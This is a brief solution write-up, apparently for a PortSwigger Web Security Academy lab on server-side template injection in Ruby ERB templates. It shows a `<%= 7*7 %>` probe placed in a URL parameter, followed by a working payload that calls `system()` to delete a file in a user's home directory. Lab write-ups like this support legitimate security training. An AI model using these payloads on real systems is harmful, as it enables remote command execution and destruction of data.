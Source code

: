 # Basic server-side template injection

## This lab is vulnerable to [server-side template injection](https://portswigger.net/web-security/server-side-template-injection) due to the unsafe construction of an ERB template.

## To solve the lab, review the ERB documentation to find out how to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

### HINT

### irb(main):007:0> system("mkdir testruby")

### => true

### step1

use `<%= 7*7 %>`

eg `https://0a7800a803242fc88031d056005b0035.web-security-academy.net/?message=Unfortunately%20this%20product%20is%20out%20of%20stock`
it will print out of stock
`https://0a7800a803242fc88031d056005b0035.web-security-academy.net/?message=<%= 7*7 %>`
it will print 49

### step2

From the Ruby documentation, discover the `system()` method,
which can be used to execute arbitrary operating system commands.
`<%= system("rm /home/carlos/morale.txt") %>`
lab solve

